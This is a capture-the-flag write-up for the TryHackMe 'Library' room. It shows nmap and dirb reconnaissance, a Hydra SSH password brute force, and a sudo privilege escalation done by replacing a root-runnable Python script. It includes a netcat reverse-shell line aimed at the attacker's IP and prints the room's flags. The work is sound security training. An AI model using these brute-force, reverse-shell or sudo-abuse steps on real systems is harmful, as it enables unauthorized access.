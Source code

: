 ```yaml
---
title: "Library CTF - TryHackMe"
author: Ludovic COULON
date: 2020-06-11
hero: ./images/hero.jpeg
excerpt: "Writeup for the Library CTF room on TryHackMe"
---
```


[TryHackMe | Library CTF](https://tryhackme.com/room/bsidesgtlibrary)

Read user.txt and root.txt

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.98.89
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
|   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN

80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<div className="Image__Medium">
  <img src="https://imgur.com/NWlX0nd.png" alt="blog_image" />
</div>

Let's see if there is some hidden directory 😔

```bash
➜  ~ dirb http://10.10.98.89/

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Tue Jun  9 16:57:31 2020
URL_BASE: http://10.10.98.89/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.98.89/ ----
==> DIRECTORY: http://10.10.98.89/images/
+ http://10.10.98.89/index.html (CODE:200|SIZE:5439)
+ http://10.10.98.89/robots.txt (CODE:200|SIZE:33)
+ http://10.10.98.89/server-status (CODE:403|SIZE:299)
```

<div className="Image__Medium">
  <img src="https://imgur.com/R4JWXDR.png" alt="blog_image" />
</div>

<div className="Image__Small">
  <img src="https://imgur.com/oY8Ps8x.png" alt="blog_image" />
</div>

"Posted by meliodas" maybe a username ? let's keep it..

There is nothing on the website, this is a simple landing page with HTML nothing to attack there, but there is something interresting on the "robots.txt" the "User-agent: Rockyou".

Let's try to crack the ssh password with Hydra 🥰

```bash
# Meliodas was the name that we found on the index.html and rockyou is a list of common password
➜  TryHackMe hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.98.89
```

<div className="Image__Medium">
  <img src="https://imgur.com/ZMBdybW.png" alt="blog_image" />
</div>

```bash
[22][ssh] host: 10.10.98.89   login: meliodas   password: iloveyou1
```

### #1 user.txt

<div className="Image__Medium">
  <img src="https://imgur.com/i4x8ElV.png" alt="blog_image" />
</div>

```bash
meliodas@ubuntu:~$ cat user.txt
6d488cbb3f111d135722c33cb635f4ec
```

### #2 root.txt

```bash
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ cat bak.py
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Ok now, we know that we can execute a python script with the root privileges let's try to have a root shell and run it with sudo 🤓

```bash
meliodas@ubuntu:~$ echo 'nc -e /bin/sh 10.9.2.228 4444' > bak.py
-bash: bak.py: Permission denied
```

Well.. That doesn't work let's try something else..

On the sudo -l command we can see the path of the file "/home/meliodas/bak.py"

Let's delete it and recreate our own one 🤑

```bash
meliodas@ubuntu:~$ rm -rf /home/meliodas/bak.py
```

```bash
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/sh")' > /home/meliodas/bak.py
meliodas@ubuntu:~$ sudo python /home/meliodas/bak.py
$ id
uid=0(root) gid=0(root) groups=0(root)
$ cd /root/
$ ls
root.txt
$ cat root.txt
e8c8c6c256c35515d1d344ee0488c617
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/hejzVWP.png" alt="TryhackMeProfile" />
  </a>
</center>
